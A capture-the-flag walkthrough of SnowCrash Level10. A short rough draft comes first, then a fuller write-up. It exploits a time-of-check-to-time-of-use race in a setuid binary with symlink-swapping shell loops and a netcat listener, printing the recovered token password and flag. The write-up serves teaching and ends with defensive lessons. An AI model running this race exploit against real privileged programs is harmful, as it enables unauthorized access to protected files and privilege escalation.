 in the level10 when we ran ls we got level10 token

if we do ./level10 wegot means level10 accepts a file and host

we try ./level10 token localhost but we got You don't have access to token

if we tried to decompile the level10 we will se that this program uses the access function to check the permission of the file , but there is an vulnabitlty here :
from access man :
Warning: Using these calls to check if a user is authorized to,
for example, open a file before actually doing so using open(2)
creates a security hole, because the user might exploit the short
time interval between checking and opening the file to manipulate
it. For this reason, the use of this system call should be
avoided. (In the example just described, a safer alternative
would be to temporarily switch the process's effective user ID to
the real ID and then call open(2).)

so wa can exploit the time gap (TOCTOU) between the check permission and open the file .

we perpare a script , and run it in terminal
echo "test" > /tmp/fake &
while true; do
ln -sf /tmp/fake /tmp/exploit;
ln -sf ~/token /tmp/exploit;
done &

then we run :
while true; do
./level10 /tmp/exploit 127.0.0.1;
done

and Since level10 sends the file over the network, we will need a listener:

nc -lk 6969
then we will get the password:
woupa2yuojeeaaed06riuj63c

then we run su flag10 and type the password woupa2yuojeeaaed06riuj63c then we run the getflag command and we will get the flag: feulo4b72j7edeahuete3no7c

# SnowCrash Level10 Walkthrough

## Overview

Level10 presents a **Time-of-Check to Time-of-Use (TOCTOU)** vulnerability in a setuid program. The challenge requires exploiting a race condition between permission checking and file access to read a protected token file.

## Initial Reconnaissance

In the home directory, we find two files:

```bash
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

Key observations:

- `level10`: An executable with SUID bit set (runs as flag10)
- `token`: A protected file we need to read (readable only by flag10)

## Analyzing the Executable

Basic Program Behavior
Testing the executable reveals its functionality:

```bash
level10@SnowCrash:~$ ./level10
./level10 file host
       sends file to host if you have access to it
```

The program requires a file and host argument, then sends the file contents to the specified host if permissions allow.

## Attempting to Read the Token

Attempting to Read the Token

```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

## Understanding the Vulnerability

### Reverse Engineering Insights

Decompiling the program reveals:

1. It uses access() to check file permissions

2. Then uses open() to actually read the file

3. There's a race condition between these operations

From the access man page warning:

```text
  Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
```

## TOCTOU Exploit Concept

We can exploit the time gap between:
1. access() checking permissions (as the current user)
2. open() reading the file (as flag10, due to SUID)

## Exploit Development

### Preparation

1. Create a dummy file we can read:

```bash
echo "test" > /tmp/fake
```

2. Set up a symlink switching script:

```bash
while true; do
    ln -sf /tmp/fake /tmp/exploit;
    ln -sf ~/token /tmp/exploit;
done &
```

### Launching the Exploit

1. In one terminal, run the level10 program repeatedly:

```bash
while true; do
    ./level10 /tmp/exploit 127.0.0.1;
done
```

2. In another terminal, start a listener:

```bash
nc -lk 6969
```

## Successful Exploitation

After running the exploit, we eventually receive the token contents:

```text
woupa2yuojeeaaed06riuj63c
```

## Privilege Escalation

1. Switch to flag10 user:

```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
```

2. Get the final flag:

```bash
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## Technical Analysis

### Why the Exploit Works

1. **Race Condition**: The tiny window between access() and open() allows us to swap the symlink

2. **Timing**:
   access() checks /tmp/exploit pointing to /tmp/fake (allowed)
   We quickly switch it to point to ~/token
   open() follows the symlink to ~/token (allowed as flag10)

3. **Network Exfiltration**: The program sends the file contents over the network, allowing us to capture the token

## Key Learning Points

1. **TOCTOU Vulnerabilities**: Security checks must be atomic with operations
2. **Symlink Attacks**: Symbolic links can be dangerous with time-sensitive operations
3. **SUID Pitfalls**: Special permissions require careful programming
4. **Race Conditions**: Even nanosecond timing windows can be exploited

## Security Implications

This challenge demonstrates why:

- **access()** should never be used for security checks
- File operations should use open() with O_NOFOLLOW
- Privileged programs must be carefully audited for race conditions
- Temporary files and symlinks require special handling in secure code

## Next Steps

With the flag feulo4b72j7edeahuete3no7c, we can now proceed to Level11 of the SnowCrash challenge.
